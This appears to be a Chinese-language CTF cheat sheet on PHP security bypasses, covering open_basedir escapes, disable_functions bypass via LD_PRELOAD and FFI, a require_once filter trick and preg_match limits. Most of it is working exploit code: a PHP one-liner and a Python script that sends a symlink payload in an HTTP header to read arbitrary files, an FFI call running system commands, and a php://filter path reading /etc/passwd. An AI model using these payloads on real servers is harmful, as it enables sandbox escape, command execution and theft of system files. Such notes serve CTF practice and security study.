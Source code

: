 # PHP中的重要函数

## open_basedir绕过

```php
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

分析：https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/


symlink 法

```python
def exploit(f):
    #print f
    payload="""
error_reporting(E_ALL);
chdir("/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3/");
mkdir('./{0}/b/c/d/e/f/g/',0777,TRUE);
symlink('./{0}/b/c/d/e/f/g','{1}');
ini_set('open_basedir','/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3:{2}/');
symlink('{1}/../../../../../../','{2}');
unlink('{1}');
echo base64_encode(file_get_contents('{2}{3}'));
""".format(randomstr(),randomstr(),randomstr(),f)
    poc= payload.replace("\n",'')
    #print poc
    headers = {
        "eki":poc
    }
    req=requests.get(url,headers=headers)
    print req.text
```

### 扩展资料

https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/


## Bypass ``disabled_function``

### LD_PRELOAD

原理：

PHP 的 ``putenv()``函数，设定 ``LD_PRELOAD(环境变量)`` 为 ``hack.so``。

利用 PHP 的 ``mail()``函数，``mail()`` 内部启动新进程 ``/usr/sbin/sendmail``，因为上一步 ``LD_PRELOAD``的作用，``sendmail`` 调用的``void()``函数 被优先级更好的 ``hack.so`` 中的同名 ``getuid()``函数所劫持。

#### Exp

https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD

### php 7.4 FFI


根据官方文档``FFI``是可以直接调用系统函数的

比如这样

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("id > /tmp/eki");
echo file_get_contents("/tmp/eki");
@unlink("/tmp/eki");
```

**但是``FFI API``仅能适用于预加载文件**

## require_once

poc:

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/etc/passwd
```


php源码分析 require_once 绕过不能重复包含文件的限制：https://www.anquanke.com/post/id/213235

## file_get_content

关于file_put_contents的一些小测试: https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/

## preg_match 

1. 修改htaccess参数

    ```
    php_value pcre.backtrack_limit 0
    php_value pcre.jit 0 
    ```

2. 数组绕过